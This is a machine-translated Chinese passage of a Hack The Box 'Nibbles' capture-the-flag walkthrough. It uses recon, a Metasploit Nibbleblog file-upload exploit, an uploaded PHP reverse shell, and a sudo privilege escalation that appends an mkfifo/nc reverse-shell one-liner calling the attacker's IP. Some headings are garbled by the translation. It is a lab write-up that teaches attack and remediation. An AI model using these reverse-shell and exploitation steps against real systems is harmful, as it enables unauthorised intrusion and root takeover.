# 保持冷静，黑掉盒子——啃咬

> 原文：<https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-nibbles/>

黑客盒子(HTB)是一个在线平台，让你测试你的渗透测试技能。

它包含几个不断更新的挑战。有些是模拟真实世界的场景，有些更倾向于 CTF 风格的挑战。

*************************【*************************



Nibbles 是一个简单的机器，专注于猜测密码和枚举 web 应用程序。

在本教程中，我们将使用以下工具典当盒子:

*   nmap
*   gobuster
*   metasploit
*   PHP 反向外壳
*   网猫

我们开始吧！

## **********************************************侦察。]**********************************************

开发一台机器的第一步是做一些扫描和侦察。

这是最重要的部分之一，因为它将决定你以后可以尝试利用什么。在这个阶段花更多的时间来获取尽可能多的信息总是更好的。

### ******************************端口扫描****************************带 Nmap**

我会用****************************************************************Nmap********************Nmap 是一个用于网络发现和安全审计的免费开源工具。********************************************

它使用原始 IP 数据包来确定网络上有哪些主机可用、这些主机提供什么服务、它们运行什么操作系统、使用什么类型的包过滤/防火墙以及许多其他特征。

这个工具有许多命令可以用来扫描网络。如果你想了解更多，你可以看一下文档[这里](https://tools.kali.org/information-gathering/nmap)。


我使用以下命令来执行密集扫描:

```
nmap -A -v 10.129.151.27
```



****************-A:****************启用 OS 检测、版本检测、脚本扫描和 traceroute

****************-v:****************增加详细程度

****************:****************IP 为啃盒

如果你觉得这个结果有点令人难以置信，你可以试试这个:

```
nmap 10.129.151.27
```



我们可以看到有两个开放的端口:

****************端口********22********。安全外壳(SSH)、安全登录、文件传输(scp、sftp)和端口转发

****************端口********80********。超文本传输协议(HTTP)。这里是一个 Apache 服务器(httpd 2.4.18)。

## ******第二步****–****拜访****W****EB****P****年龄******

在侦察阶段，我决定从 80 端口开始。我得到一个页面，在顶部有一个简单的“你好，世界”的信息。



我查看源代码，看到有一行注释:

```
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```



我导航到这个文件夹，登陆到一个看起来像博客的页面，叫做“Nibbles Yum Yum”。



我可以在底部看到这个博客是由 Nibbleblog 支持的。我看看是什么。

Nibbleblog 被描述为一个简单、快速和免费的 PHP 博客系统。你可以在这里找到更多信息[。](https://www.nibbleblog.com/)



有了这条新信息，我决定运行 **Gobuster** 。Gobuster 是一个用 Go 编写的目录扫描器。你可以在这里找到关于工具[的更多信息。](https://tools.kali.org/web-applications/gobuster)

Gobuster 使用 HTB 鹦鹉盒子上的单词表，它们位于****************/usr/share/********wfuzz/word list/********目录下。我用的是" **common.txt** "词表，但是你可以从********sec lists********[这里](https://github.com/danielmiessler/SecLists)下载更多词表。


我对 dirb common.txt 单词表使用以下命令:

```
gobuster dir -u 10.129.151.27 -w /usr/share/wfuzz/wordlist/general/common.txt -x php,txt
```

我也关注。php 和。带有 **-x** 标志的 txt 文件(扩展名)。

有几个很棒的发现，包括一个****/**admin**/**文件夹。我首先检查 **/content/** 文件夹。**



然后是 **/install.php** 文件。我点击更新:



我登陆了在 Gobuster 上找到的 **/update.php** 页面。有几个链接:



我导航到第一个页面，即 **/config.xml** 页面:

```
10.129.151.27/nibbleblog/content/private/config.xml
```



我浏览了 xml 文件，写下了我在那里找到的电子邮件:

```
admin@nibbles.com
```

这可能是有价值的用户信息。

我继续浏览用 Gobuster 找到的其他页面。我导航到 **/admin/** 文件夹:



以及 **/admin.php** 页面。我终于找到一个登录页面了！



我尝试使用虚拟凭证来观察页面的行为。该表单的参数包括:

```
username=test&password=test
```



我导航到在 Gobuster 上找到的最后一个页面，即 **/users.xml** 页面。我可以看到有一个用户名，**管理员**，但似乎也有一个黑名单机制。我想是这样的，黑名单标签上有<和我的 HTB IP 地址。 **1** 的失败次数是我之前用虚拟凭证进行的测试。

看来我们不会暴力破解登录页面了。我们需要猜测用户名:密码组合。



## **************第三步************ 一个**–**剥削 ********【T4**************

在 **/update.php** 的侦察阶段，有一些关于 Nibbleblog 版本的信息。

```
Nibbleblog 4.0.3 "Coffee"
```

我用谷歌搜索这个版本，检查这个特定版本是否有任何已知的漏洞。我在**漏洞数据库**上找到一个。



[https://www.exploit-db.com/exploits/](https://www.exploit-db.com/exploits/34900)38489

似乎存在针对此漏洞的 Metasploit 利用。

我然后用****************Metasploit****************，这是一个让黑客攻击变得简单的渗透测试框架。这是许多攻击者和防御者的必备工具。


我启动了****************Metasploit 框架****************，并寻找我应该用于漏洞利用的命令。

使用以下命令启动 Metasploit 时，不要忘记更新它:

```
msfupdate
```

我使用以下命令搜索漏洞:

```
search nibbleblog
```



这和我在漏洞数据库里找到的一样。我通过以下方式获得更多信息:

```
info 0
```



这也让我了解了利用漏洞所需的选项。我们可以看到所有必需的信息，包括有效的用户名:密码组合:



信息部分为我们提供了几个链接来了解更多关于该漏洞的信息。第一个链接重定向到 ****国家漏洞数据库**** 。



https://nvd.nist.gov/vuln/detail/CVE-2015-6967

第二个链接是一个关于手动利用漏洞的安全研究博客。我将在下一步中使用这种方法。



https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html

现在，我们有了更多的背景信息，让我们利用:

```
use 0
```

您现在应该看到 msf6 终端设置为:

```
exploit(multi/http/nibbleblog_file_upload)
```



我现在将使用这些命令设置不同的选项:

```
set USERNAME admin
```

```
set PASSWORD nibbles
```

我将用户名:密码组合设置为 admin:nibbles。我在 **/users.xml** 页面上找到了用户名 admin，我用在(admin@nibbles.com**/config . XML**页面上找到的电子邮件试了试我的密码

```
set RHOSTS 10.129.151.27
```

```
set LHOST 10.10.14.110
```

我将目标 URI 设置为博客页面:

```
set TARGETURI /nibbleblog/
```

我运行了 **check** 命令——因为我在检查漏洞信息时发现它是可用的。目标看起来很脆弱。这也是对选项设置正确的确认。



我在运行漏洞利用之前检查了选项:



我用以下方式运行漏洞:

```
run
```

并取回一个 **Meterpreter** 会话。

下面是来自[攻击性安全](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)的 Meterpreter 的定义:

> Meterpreter 是一个高级的、可动态扩展的有效负载，它使用 ********内存中的********DLL 注入阶段，并在运行时通过网络进行扩展。它通过 stager 套接字进行通信，并提供全面的客户端 Ruby API。它具有命令历史，标签完成，渠道，等等。

你可以在这里阅读更多关于 Meterpreter [的内容。](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/)



## **************步************3b**–**利用******

回到 **/admin.php** 页面。我必须猜密码。看着我的笔记，我在 **/users.xml** 页面上找到了用户名 admin，我用在 **/config.xml** 页面上找到的电子邮件(admin@nibbles.com)试了试密码。

我将用户名:密码组合设置为 admin:nibbles。



而且很管用！

我能看到 Nibbleblog 仪表盘。我们在右侧的通知板上看到，我的**登录失败尝试**被捕获。



我导航到**插件**标签和**我的图片**:



我们可以上传一个 **PHP 反向 shell** 作为图片文件:



**Pentestmonkey** 有一个反壳列表，我就用 PHP 那个。这些代码可以在他们的 GitHub 库中找到。



点击**php-reverse-shell.php**文件:



这是我们需要上传到 Nibbleblog 仪表板上的一段代码:



我需要用我的 HTB IP 改变这个部分。



回到我的终端，我创建了一个名为**image.php**的新文件，包含:

```
nano image.php
```



我用我的 HTB IP 修改了变量 **$IP** 的文件:

```
$IP = '10.10.14.110';
```

我把港口留给 **1234** :



回到 Nibbleblog 仪表板。我上传了新创建的带有反向 shell 代码的**image.php**文件。忽略警告。



我在端口**上设置了一个********Ncat********监听器来捕捉反向 shell 连接。**

> Ncat 是一个功能丰富的网络实用程序，可以从命令行通过网络读写数据。Ncat 是为 Nmap 项目编写的，是古老的 [Netcat](http://sectools.org/tool/netcat/) 的改进版。它使用 TCP 和 UDP 进行通信，旨在成为一个可靠的后端工具，为其他应用程序和用户即时提供网络连接。

你可以在这里了解更多关于 Ncat [的信息。](https://nmap.org/book/ncat-man.html)

```
nc -nlvp 1234
```

我导航到触发漏洞的页面:

```
10.129.151.27/nibbleblog/content/private/plugins/my_images/image.php
```

然后我会得到一个会话！



## **步骤 4 -寻找 user.txt 标志**

我检查我在机器上的位置:



并开始导航到 **home** 文件夹。


我找到了用户标志！我可以使用以下命令检查文件的内容:

```
cat user.txt
```

## ******第五步-**** 望 ************为根. txt************F************滞后**************

我导航回 **/** 文件夹。我无法访问**根**文件夹。



我键入以下命令在目标系统上获得标准 shell:

```
shell
```

我用以下材料制造了一个 TTY 贝壳:

```
python3 -c "import pty; pty.spawn('/bin/bash/');"
```

我必须使用 python3:



我需要更改为根用户才能访问该文件夹。我使用命令:

```
sudo -l
```

了解我可以在 localhost 上运行哪个命令。



我发现用户**尼卜乐**可以以“root”身份执行**/home/nibbler/personal/stuff/monitor . sh**命令，不需要密码。

让我们找到这个文件！我导航回到 **/home/nibbler/** ，找到一个名为 **personal.zip** 的 zip 文件。我用这个命令解压内容:

```
unzip personal.zip
```

我可以看到我们正在寻找的**/personal/stuff/monitor . sh**文件:



我用以下命令检查文件的内容:

```
cat monitor.sh
```



我决定将反向 shell 附加到这个文件的末尾:

```
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14,110 1234 > /tmp/f" >> monitor.sh
```



我对文件进行了 cat，以检查它是否被正确地添加到了文件的末尾:



我在端口 ****1234**** 上设置了一个********Ncat********监听器来捕捉我终端上的反向 shell 连接:



然后我在尼卜乐的终端上运行命令:

```
sudo /home/nibbler/personal/stuff/monitor.sh
```



我现在是 root 了！我可以导航到 ********根******** 文件夹。我找到 root.txt 文件，并使用以下命令检查其内容:

```
cat root.txt
```



恭喜你。你找到了两面旗。

## ******补救******

*   使用复杂的密码，不要使用默认/通用密码——admin:nibbles 太简单了
*   修补到最新版本–在这种情况下，修补到可用的最新 Nibbeblog 版本
*   将最低特权原则应用于您的所有系统和服务

请随时提问或与您的朋友分享:)

更多文章可以从 ****************保持冷静，黑盒子****************[这里](https://www.freecodecamp.org/news/search/?query=keep%20calm%20and%20hack%20the%20box)。

你可以在 Twitter 上关注我，也可以在 T2 的 LinkedIn 上关注我。

并不要忘记# **********************#**********************

